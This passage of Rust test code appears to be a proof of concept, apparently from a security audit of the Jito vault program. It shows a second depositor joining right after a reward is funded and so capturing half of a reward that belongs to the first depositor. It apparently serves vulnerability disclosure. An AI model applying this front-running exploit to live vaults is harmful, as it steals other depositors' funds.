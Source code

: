 ```rust
        println!("Vault setup complete!");
        println!("==============================================");
        println!("Depositor1 sets up their account and mint ${}..", MINT_AMOUNT);

        let config = vault_program_client
            .get_config(&Config::find_program_address(&jito_vault_program::id()).0)
            .await
            .unwrap();

        let depositor1 = Keypair::new();
        vault_program_client
            .configure_depositor(&vault_root, &depositor1.pubkey(), MINT_AMOUNT)
            .await
            .unwrap();

        vault_program_client
            .do_mint_to(&vault_root, &depositor1, MINT_AMOUNT, MINT_AMOUNT)
            .await
            .unwrap();

        println!("Depositor1 setup complete!");
        println!("==============================================");
        println!("Emulate reward accumulation. This reward should go to depositor1, since it's generated from their funds..");
        println!("Reward amount: ${}", REWARD_AMOUNT);
        let reward_depositor = Keypair::new();
        vault_program_client
            .configure_depositor(&vault_root, &reward_depositor.pubkey(), REWARD_AMOUNT)
            .await
            .unwrap();

        vault_program_client
            .create_and_fund_reward_vault(&vault_root.vault_pubkey, &reward_depositor, REWARD_AMOUNT)
            .await
            .unwrap();
        println!("Reward funded!!");

        println!("==============================================");
        println!("Exploit begins..");
        println!("Depositor2 joins immediately after seeing the reward deposit, and effectively `steals` half of the reward..");
        let depositor2 = Keypair::new();
        vault_program_client
            .configure_depositor(&vault_root, &depositor2.pubkey(), MINT_AMOUNT)
            .await
            .unwrap();

        vault_program_client
            .do_mint_to(&vault_root, &depositor2, MINT_AMOUNT, MINT_AMOUNT)
            .await
            .unwrap();

        println!("Exploit done! Update will confirms the theft");
        println!("==============================================");
        println!("Update vault balance..");
        vault_program_client
            .update_vault_balance(&vault_root.vault_pubkey)
            .await
            .unwrap();

        println!("Update complete!");
        println!("==============================================");
```